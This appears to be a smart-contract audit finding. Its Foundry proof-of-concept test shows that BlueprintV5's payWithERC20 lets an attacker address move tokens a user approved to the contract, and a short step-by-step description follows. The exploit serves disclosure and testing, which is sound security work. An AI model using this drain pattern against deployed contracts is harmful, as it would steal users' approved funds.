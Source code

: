 

The following PoC test demonstrates the vulnerability. Add this test to the test suite in BluePrintV5.t.sol:

```javascript
function test_canDrainFunds() public {
        // Define attacker address
        address attacker = address(0xDEAD);

        // Mint tokens to the test account (simulating a user)
        uint256 userFunds = 100 * 10 ** 18;
        mockToken.mint(address(this), userFunds);

        // Log initial balances
        console.log("Initial user balance:", mockToken.balanceOf(address(this)));
        console.log("Initial attacker balance:", mockToken.balanceOf(attacker));

        // Verify initial balances
        assertEq(mockToken.balanceOf(address(this)), userFunds, "User should have initial funds");
        assertEq(mockToken.balanceOf(attacker), 0, "Attacker should start with zero balance");

        // User approves the Blueprint contract to spend their tokens (common user action)
        mockToken.approve(address(blueprint), userFunds);

        // Log allowance
        uint256 allowance = mockToken.allowance(address(this), address(blueprint));
        console.log("Allowance granted to Blueprint:", allowance);

        // Verify approval
        assertEq(allowance, userFunds, "Blueprint should have full allowance");

        // Attacker calls payWithERC20 directly to drain funds
        vm.prank(attacker); // Simulate attacker calling the function
        blueprint.payWithERC20(address(mockToken), userFunds, address(this), attacker);

        // Log balances after the exploit
        console.log("User balance after exploit:", mockToken.balanceOf(address(this)));
        console.log("Attacker balance after exploit:", mockToken.balanceOf(attacker));

        // Verify funds have been drained
        assertEq(mockToken.balanceOf(address(this)), 0, "User funds should be drained");
        assertEq(mockToken.balanceOf(attacker), userFunds, "Attacker should have received the funds");
    }
```
****Description:****
    - Defines an attacker address (0xDEAD).
    - Mints 100 tokens to the contract (simulating a user).

    -Initial state:
        - User has 100 tokens.
        - Attacker has 0 tokens.
    -User approves the contract to spend their tokens.
        - Approves the BlueprintV5 contract to spend 100 tokens from the test contract’s address.
        - Verifies the allowance is set correctly.
    -Attacker calls payWithERC20 directly to drain funds.
